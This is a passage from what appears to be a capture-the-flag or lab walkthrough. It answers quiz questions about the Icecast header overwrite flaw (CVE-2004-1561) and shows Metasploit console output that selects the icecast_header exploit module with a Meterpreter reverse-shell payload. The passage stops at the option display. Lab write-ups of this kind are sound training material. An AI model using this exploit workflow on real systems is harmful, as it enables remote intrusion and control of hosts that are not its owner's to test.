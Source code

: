 Furthermore, the answering the second question:

> What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000\
> > CVE-2004-1561

As directed, we'll fire up metasploit and search for an exploit: 

```console
$ sudo msfconsole -q                      
msf6 >

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > 

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-
                                      framework/wiki/Using-Metasploit
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.22       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

The answer for the 3rd question:

> What is the full path (starting with exploit) for the exploitation module?\
> > exploit/windows/http/icecast_header
